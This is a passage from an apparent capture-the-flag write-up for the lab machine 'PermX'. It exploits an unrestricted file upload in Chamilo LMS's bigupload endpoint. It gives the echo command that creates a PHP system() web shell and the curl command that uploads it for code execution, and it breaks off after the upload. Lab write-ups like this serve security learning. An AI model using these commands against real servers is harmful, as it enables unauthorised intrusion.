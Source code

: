 Following that, let's check if we can access `/main/inc/lib/javascript/bigupload/files` directory.

Type to the browser:

```
lms.permx.htb/main/inc/lib/javascript/bigupload/files/
```

![web](./Screenshots/permxweb6.png)

Yes, we can. What is funny, there are some files uploaded today, probably by some other users as machine is still `Active`. 

One file is named `php-reverse-shell.php`. This only gives me confirmation that we are on the right way.

### Reverse shell

*If it weren't for the previously uploaded files from other users, I wouldn't be sure that this exploit works, and then I would upload a simple shell just like I do now to make sure and do it quickly without wasting time.*

First of all, like in article, I will upload simple `<?php system("id"); ?>` shell to observe if the `id` shell command is successfully executed. This will confirm unrestricted file upload vulnerability.

As file named `rce.php` is already uploaded, I will name my test reverse shell `revshell.php`.

In order:

```
echo '<?php system("id"); ?>' > revshell.php
```

```
curl -F 'bigUploadFile=@revshell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

![revshell](./Screenshots/permxrevshell.png)
